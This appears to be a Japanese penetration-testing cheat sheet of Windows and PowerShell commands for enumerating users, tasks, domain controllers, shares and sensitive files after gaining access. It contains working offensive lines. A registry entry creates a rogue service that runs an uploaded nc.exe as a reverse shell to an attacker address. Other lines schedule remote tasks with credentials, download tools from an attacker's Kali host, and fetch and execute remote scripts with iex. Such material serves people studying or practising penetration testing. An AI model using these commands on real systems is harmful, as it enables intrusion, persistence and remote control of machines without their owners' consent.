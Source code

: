 # windows command

* net XXX

``` bat
    # ユーザ情報
    net user
    または
    wmic USERACCOUNT Get Domain,Name,Sid
    # ログオンとかパスワード条件とか
    net accounts
    # ローカルグループ情報
    net localgroup
```

* tasklist

``` bat
    tasklist /SVC
    
    tasklist /m
```

* schtasks

```bat
    # /S: 接続先リモートシステム
    # /U: ユーザ名
    # /P: パスワード
    # /TN: タスク名
    # /SC: スケジュール(1回) 
    # /SD: 開始日
    # /ST: 開始時刻
    # /TR: 実行タスク
    schtasks /Create /S 192.168.xxx.xxx /U <user> /P <password> /TN sample /SC ONCE /SD 1900/01/01 /ST 00:00 /TR C:¥Remote¥test.bat

    # タスクの一覧表示(詳細)
    schtasks /query /fo list /v
```

* システム情報

```bat
    systeminfo
    または
    wmic computersystem LIST full
```

* マウント情報(共有ドライブとか)

``` bat
    mountvol
```

* ドメイン情報

``` bat
    #　ドメコン名とかの取得
    nltest /dsgetdc:<domain>
```

* ping sweep

``` bat
    for /l %i in (1,1,255) do @ping -n 1 -w 100 XXX.XXX.XXX.%i | fiond "TTL="
```

* ファイル検索

``` bat
    dir /s *<file_name>*  
　  # 検索でよく使うファイルパターン
    *.txt/*.doc/*.xls/*.one/*.cnf/unattend.xml
```

* kaliにあるwindowsで実行可能なファイル
  
    `/usr/share/windows-binaries`

* windows reverse shell
  * windowsサービス

``` bat
    #wordpressから[nc.exe]をfile uploadする必要がある。
    reg add HKLM\SYSTEM\CurrentControlSet\Services\evilsvc /t REG_EXPAND_SZ /v ImagePath /d "cmd /c \"C:\inetpub\wwwroot\wordpress\wp-content\themes\twentytwenty\nc.exe XXX.XX.XX.XX PPPP -e cmd\"" /f

    #再起動できる場合は再起動
    shutdown /r /t 0 /f
```

* sc

``` batch
    # サービス登録コマンド
    # notepad.exeをシステム起動時に自動起動するサービスを登録するコマンド 
    sc create notepad binpath= "C:¥Windows¥system32¥notepad.exe" start=auto
    # サービス情報の表示
    sc qc <service_name>
    # サービス起動
    sc start <service_name>
    # サービス停止
    sc stop <service_name>
```

* wmic

``` bat
    #システム情報
    wmic computersystem LIST full
    #サービス検索
    wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\"
    #ファイル検索
    wmic DATAFILE where "drive='C:' AND Name like '%<file_name>%'" GET Name,Readable,size /VALUE
```

* whoami

``` bat
    whoami
    #権限表示
    whoami /priv
    #グループ表示
    whoami /group
```

## PowerShell

* バージョン確認

``` powershell
    $PsVersionTable
```

* ファイルダウンロード

``` powershell
    powershell -NoProfile -ExecutionPolicy unrestricted -Command (Invoke-WebRequest -Uri "http://<Remote KaliのIP>:8000/nc.exe" -OutFile "nc.exe")
    
    iwr -Uri http://XXX.XXX.XXX.XXX/<file_name> -OutFile "<file_path>\<file_name>>"
    
    iex(new-object net.webclient).downloadstring('http://XXX.XXX.XXX.XXX/<file_name>')
```

* 共有ドライブ

``` powershell
    powershell -Command "Get-WmiObject -class Win32_Share"
```
